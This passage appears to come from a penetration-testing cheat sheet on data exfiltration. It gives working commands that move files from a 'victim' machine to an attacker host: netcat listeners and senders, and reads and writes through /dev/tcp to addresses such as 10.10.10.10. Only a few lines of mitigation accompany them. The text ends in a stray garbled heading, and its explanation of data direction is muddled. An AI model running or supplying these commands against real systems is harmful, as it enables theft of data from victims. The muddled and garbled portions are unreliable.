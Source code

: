    ```
   nc 192.168.0.100 1234 < data.txt
   ```

3. The contents of `data.txt` will be displayed on the terminal of the receiving system.

### Notes

- NC can be used for both local and remote exfiltration of data.
- Ensure that the necessary ports are open and accessible between the systems involved.
- NC can also be used for other networking tasks, such as port scanning and banner grabbing.
```bash
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```
#### Description

This technique allows you to download a file from a victim machine using the `/dev/tcp` file descriptor in Linux systems.

#### Syntax

```bash
cat < /dev/tcp/<victim_ip>/<port> > <local_file>
```

#### Example

```bash
cat < /dev/tcp/192.168.0.100/8080 > secret_file.txt
```

#### Explanation

In this example, the `cat` command is used to read the contents of the file descriptor `/dev/tcp/192.168.0.100/8080` and redirect it to the file `secret_file.txt` on the attacker's machine. The `<victim_ip>` represents the IP address of the victim machine, and `<port>` represents the port number on which the file is hosted.

#### Advantages

- Simple and easy to use.
- Does not require any additional tools or software.

#### Limitations

- Only works on Linux systems.
- Requires the victim machine to have outbound internet access.
- May trigger security alerts if monitored.

#### Mitigation

- Disable outbound internet access on the victim machine.
- Monitor network traffic for suspicious activity.
- Implement strict firewall rules to block unauthorized outbound connections.
```bash
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
```
### QapHa' vItlhutlh

